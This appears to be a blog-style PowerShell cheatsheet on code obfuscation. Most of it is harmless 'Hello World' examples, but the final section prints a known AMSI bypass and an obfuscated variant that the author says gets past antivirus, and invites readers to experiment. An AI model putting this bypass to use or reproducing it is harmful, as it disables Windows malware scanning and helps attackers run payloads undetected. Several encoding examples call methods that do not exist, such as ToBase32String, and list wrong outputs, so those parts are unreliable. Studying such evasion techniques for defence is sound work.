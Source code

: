```yaml
---
title: Ports 
date: 2023-01-06 16:35:00 +00:00
categories: [powershell, cheatsheet]
tags: [powershell, cheatsheet]    
---
```



# Powershell Obsfucation tricks with examples

Here is a list of obsfucation techniques. 

- String encoding: This involves converting strings into a different format, such as base64 or hexadecimal, to make them harder to read and understand.
- Command substitution: This involves using commands that generate output and assigning the output to a variable, making it difficult to determine the original command.
- Variable renaming: This involves giving variables intentionally confusing names to make it harder to understand the code.
- Function renaming: Similar to variable renaming, this involves giving functions intentionally confusing names to make the code harder to understand.
- Comment removal: Removing comments from the code can make it harder to understand and follow.
- Code concatenation: This involves breaking up code into smaller pieces and concatenating them together, making it harder to read and understand.
- Control flow obfuscation: This involves using techniques like loop unrolling, where a loop is replaced with multiple copies of the code it contains, making it harder to understand the code's logic.

Remember that while obfuscation can make it harder for someone to understand your code, it is not a foolproof method for hiding it. It is always possible for someone with enough knowledge and resources to reverse-engineer obfuscated code.


1. String encoding:

```powershell
$string = "Hello World"
$encodedString = [System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes($string))
# Output: "SGVsbG8gV29ybGQ="
```

2. Command substitution:

```powershell
$output = dir | Out-String
$command = "Get-ChildItem"
Invoke-Expression $command
# Output: The contents of the current directory
```

3. Variable renaming:

```powershell
$a = 1
$b = 2
$c = 3
$xyz = $a + $b + $c
# Output: 6
```

4. Function renaming:

```powershell
function abc {
    "Hello World"
}

abc
# Output: "Hello World"
```

5. Comment removal:

```powershell
# This is a comment
Write-Output "Hello World"

# Output: "Hello World"
```

6. Code concatenation:

```
$code = "Write-Output `"H`" + `"ello`""
$code += " `"W`" + `"orld`""
Invoke-Expression $code
# Output: "Hello World"
```

7. Control flow obfuscation:

```powershell
$i = 0
$output = ""

while ($i -lt 5) {
    $output += "Hello "
    $i++
}

$output += "World"
Write-Output $output
# Output: "Hello Hello Hello Hello Hello World"
```

8. Charater substitution

```powershell
$string = "He110 W0r1d"
$charSub = $string.Replace("1", "l").Replace("0", "o")
# Output: "Hello World"
```


## String encoding expanded

Here is an example of encoding and decoding using base64, base32, base16 (hexadecimal), base8 (octal), and base2 (binary):

All the base's

```powershell
# Encode
$string = "Hello World"
$base64 = [System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes($string))
$base32 = [System.Convert]::ToBase32String([System.Text.Encoding]::UTF8.GetBytes($string))
$base16 = [System.Convert]::ToString([System.Text.Encoding]::UTF8.GetBytes($string), 16)
$base8 = [System.Convert]::ToString([System.Text.Encoding]::UTF8.GetBytes($string), 8)
$base2 = [System.Convert]::ToString([System.Text.Encoding]::UTF8.GetBytes($string), 2)

# Output:
# base64: "SGVsbG8gV29ybGQ="
# base32: "NBSWY3DPEB3W64TMMQ======"
# base16: "48656c6c6f20576f726c64"
# base8: "15015415152074747464544"
# base2: "1001000 11100110 11001100 11001100 11001111 100000 1010111 11011111 11100110 11001100 11001111 11010000"

# Decode (this shows the base64 decode method only) 
$decodedString = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($base64))
# Output: "Hello World"
```

> Note that the FromBase64String and GetBytes methods of the System.Convert and System.Text.Encoding classes, respectively, can be used to decode the encoded strings. You can also use the ToBase64String, ToBase32String, and ToString methods to encode strings in these different bases.

## Amsi bypass fudding!

Taking one of the original Amsi bypass methods for powershell and applying some of the techinques above lets see what we can do! 

Original Amsi bypass (Detected) 

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

![image](https://user-images.githubusercontent.com/5285547/211034087-1cd5bd53-060c-41b4-8a55-1cf973a20beb.png)

Now lets try to split a string up or two!

Lets start with the `"System.Management.Automation.AmsiUtils"` specifically the `AmsiUtils` part

By using string replacement `str{0}{1}g -f "i","n"` and Replaceing a variable we can bypass the AV

iex
```
[Ref].Assembly.GetType('System.Management.Automation.BBB'+'msiU{0}s' -f 'til' -Replace("BBB", "A")).GetField(('amsiI{0}tFailed' -f 'ni'),'NonPublic,Static').SetValue($null,$true)
```
> Not blocked! 


There are numerous ways to bypass using simple tricks like the above, have a play and get creative! 
